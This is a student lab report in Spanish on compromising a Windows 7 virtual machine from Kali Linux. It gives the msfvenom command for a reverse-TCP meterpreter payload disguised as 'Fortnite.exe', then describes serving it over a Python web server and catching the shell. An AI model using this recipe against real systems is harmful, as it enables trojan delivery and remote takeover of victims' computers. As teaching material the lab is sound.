









# HACKEO DE WINDOWS 7 CON TCP REVERSE

***Nombre:*** Nahuel Ivan Troisi
 
***Curso:*** 2º de Ciclo Superior de Administración de Sistemas Informáticos en Red.

### ÍNDICE

+ [Introducción](#id1)
+ [Objetivos](#id2)
+ [Material empleado](#id3)
+ [Desarrollo](#id4)
+ [Conclusiones](#id5)

#### ***Introducción***. 

En esta práctica vamos a conseguir acceso a la víctima mediante una aplicación maliciosa.

#### ***Objetivos***. 

Conseguir acceso a la MV.

#### ***Material empleado***. 

Se ha empleado una MV de Kali Linux como atacante y otra de Windows 7 como víctima. 

#### ***Desarrollo***. 

En primer lugar, vamos a crear un archivo malicioso con extensión ***.exe***, el cual será valido para nuestra víctima, cuyo sistema es Windows. Para ello, haremos uso de ***msfvenom***, introduciendo el comando siguiente.

~~~
msfvenom -p windows/meterpreter/reverse_tcp --platform
windows -a x86 -f exe LHOST=172.19.99.143 LPORT=444 -o
$HOME/Fortnite.exe
~~~

De esta manera, vamos a crear un archivo malicioso en nuestra máquina Kali, cuyo nombre será ***Fortnite.exe***, pero podemos establecer cualquier otro.

Una vez realizado este proceso, vamos a usar ***handler*** mediante ***Metaesploit***, donde vamos a definir la IP y el puerto por el que vamos a cargar el ***Payload***.

Posteriormente, vamos a realizar el exploit, el cual va a crear el archivo malicioso en nuestro directorio ***/home***. 

En este punto, necesitamos colar este archivo generado en la MV de Windows de forma remota. La forma más efectiva y rápida es crear un pequeño servidor web en el directorio en el que se encuentra dicho archivo mediante el uso del comando siguiente.

~~~
python3 -m http.server
~~~

De esta manera, podremos descargar el archivo si introducimos la IP de la máquina atacanate seguido del puerto, que por defecto es el 8000. 

~~~
172.19.99.143:8000
~~~

Si realizamos este proceso, podremos ver todos los archivos que se han cargado en el servidor, donde deberemos descargar el archivo ***Fortnite.exe***. 

Una vez descargado, vamos a proceder a ejecutarlo. 

Lo que nos devolverá una sesión de ***meterpreter***, la cual nos dará acceso al sistema. 

#### ***Conclusiones***. 

Es una práctica bastante útil, ya que nos sirve para concienciarnos de que hay muchas aplicaciones maliciosas que se hacen pasar por las aplicaciones originales, dando acceso al atacante sin que nosotros lo sepamos. Es por ello que hay que tener mucho cuidado con los sitios webs de donde descargamos nuestras aplicacioees.
